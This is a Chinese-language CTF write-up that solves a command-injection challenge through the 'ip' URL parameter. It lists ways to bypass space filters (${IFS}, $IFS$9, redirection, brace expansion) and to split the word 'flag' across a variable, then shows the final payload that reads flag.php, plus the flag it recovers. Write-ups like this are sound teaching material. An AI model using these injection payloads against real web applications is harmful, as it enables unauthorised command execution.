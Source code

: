 查看当前目录文件<br />`URL?ip=0;ls`（这里使用堆叠注入查询）<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698215336545-0196e2f9-1197-4aec-9d73-1d7e2291aa10.png#averageHue=%23f3f3f3&clientId=ub5d3c2c2-2e29-4&from=paste&height=208&id=u8bb77e42&originHeight=260&originWidth=514&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=11528&status=done&style=none&taskId=u7270158f-a2c2-489e-9e04-e52847199ac&title=&width=411.2)<br />直接给出了咱们flag文件，事实上真的有这么简单吗？<br />查看flag文件看看是什么情况<br />`URL?ip=0;cat flag.php`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698215574532-4eb59f0a-d7cc-4a5b-96f3-92ca289c26b1.png#averageHue=%23f4f1f0&clientId=ub5d3c2c2-2e29-4&from=paste&height=33&id=u90d497d1&originHeight=41&originWidth=286&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1795&status=done&style=none&taskId=u4cc81793-fcc6-408e-990d-ff9c9573b39&title=&width=228.8)<br />空格报错！<br />查看flag关键字是否被过滤<br />`URL?ip=0;flag.php`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698216109157-fca1c30b-1dc9-40e2-9fde-9362e959bce4.png#averageHue=%23f6f4f2&clientId=ub5d3c2c2-2e29-4&from=paste&height=50&id=ub5b17a0d&originHeight=62&originWidth=223&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1798&status=done&style=none&taskId=ue0d0ebcc-17bb-424b-9b52-b49ae68ee50&title=&width=178.4)<br />flag报错！<br />查看字符是否被过滤<br />`URL?ip=0;/`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698216192362-6f85930f-085f-4100-aa36-0f36e2f4d802.png#averageHue=%23f5f3f1&clientId=ub5d3c2c2-2e29-4&from=paste&height=42&id=u65550639&originHeight=53&originWidth=276&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2005&status=done&style=none&taskId=u4032e5b2-9131-4d9f-b41b-270633e2eee&title=&width=220.8)<br />字符报错！<br />好啊好啊，过滤这么多东西，不过好在/符号不用绕过了，因为flag就在当前目录<br />**空格绕过**
> 1. cat${IFS}flag.txt 
> 2. cat$IFS$9flag.txt （正整数可以是任意）
> 3. cat<flag.txt 
> 4. cat<>flag.txt
> 5.  {cat,flag.txt}

**flag关键字绕过**
> 可以使用定义变量绕过
> $x=ag
> fa$x=flag

**构造payload：**<br />`**URL?ip=0;x=ag;cat${IFS}fl$x.php**`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698219076973-3a184aa5-455d-4a45-a589-0efebf7fb4a3.png#averageHue=%23f7f5f3&clientId=ub5d3c2c2-2e29-4&from=paste&height=38&id=u7ebe6899&originHeight=48&originWidth=350&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2073&status=done&style=none&taskId=u83d5b49d-311e-45fb-bc3b-237b51d3596&title=&width=280)<br />字符报错！<br />猜测"{}"被过滤<br />试试第二种空格绕过方法<br />**构造payload:**<br />`**URL?ip=0;x=ag;cat$IFS$1fl$x.php**`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698219718651-776f6cfd-2a1b-4bf7-a8bd-8bec0412f405.png#averageHue=%23f4f4f4&clientId=ub5d3c2c2-2e29-4&from=paste&height=194&id=ube092bab&originHeight=242&originWidth=572&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6709&status=done&style=none&taskId=u9d310f28-ddb7-4529-ab14-a89be2deda3&title=&width=457.6)<br />**有回显结果，绕过成功，但是没有发现flag，F12查看网页源代码，看看有没有flag**<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698219743590-733bf4b1-15e3-4bad-8374-3d6e45d77975.png#averageHue=%23f4f4f4&clientId=ub5d3c2c2-2e29-4&from=paste&height=216&id=u3ab197a6&originHeight=270&originWidth=581&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12592&status=done&style=none&taskId=u9dcd84a9-a474-4ab9-ad31-1246b948b85&title=&width=464.8)<br />**得出flag：**<br />`flag{08512195-033d-4f18-a5b0-00dcbc58c4b8}`

## [强网杯 2019]随便注 1(超详细，三种解法）

<a name="evxPg"></a>
### **第一种解法 堆叠注入**